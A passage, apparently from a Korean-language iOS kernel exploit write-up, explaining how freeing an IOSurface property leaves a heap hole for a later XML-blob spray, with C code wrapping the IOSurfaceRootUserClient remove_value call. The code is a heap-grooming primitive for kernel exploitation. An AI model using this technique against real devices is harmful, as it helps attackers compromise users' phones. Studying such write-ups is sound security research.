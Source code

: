 이렇게 하면, 이후 스프레이를 하는데에 XML 데이터 블롭을 매핑할 수 있는 hole이 생기게 된다.

```cpp
/*
 * IOSurface_remove_value
 *
 * Description:
 * 	A wrapper around IOSurfaceRootUserClient::remove_value().
 */
kern_return_t
IOSurface_remove_value(const struct IOSurfaceValueArgs *args, size_t args_size) {
	struct IOSurfaceValueResultArgs result;
	size_t result_size = sizeof(result);
	kern_return_t kr = IOConnectCallMethod(
			IOSurfaceRootUserClient,
			11, // remove_value
			NULL, 0,
			args, args_size,
			NULL, NULL,
			&result, &result_size);
	if (kr != KERN_SUCCESS) {
		ERROR("failed to %s value in %s: 0x%x", "remove", "IOSurface", kr);
	}
	return kr;
}

...

int IOSurface_remove_property(uint32_t key) {
    uint32_t argsSz = sizeof(struct IOSurfaceValueArgs) + 2 * sizeof(uint32_t);
    struct IOSurfaceValueArgs *args = malloc(argsSz);
    bzero(args, argsSz);
    args->surface_id = IOSurface_id;
    args->xml[0] = key;
    args->xml[1] = 0;
    int ret = IOSurface_remove_value(args, 16);
    free(args);
    return ret;
}

...

    // free huge allocation
    ret = IOSurface_remove_property(huge_kalloc_key);
    if (ret) {
        printf("[-] Failed to remove IOSurface property\n");
        goto err;
    }
```

![image.png](pics/image%206.png)
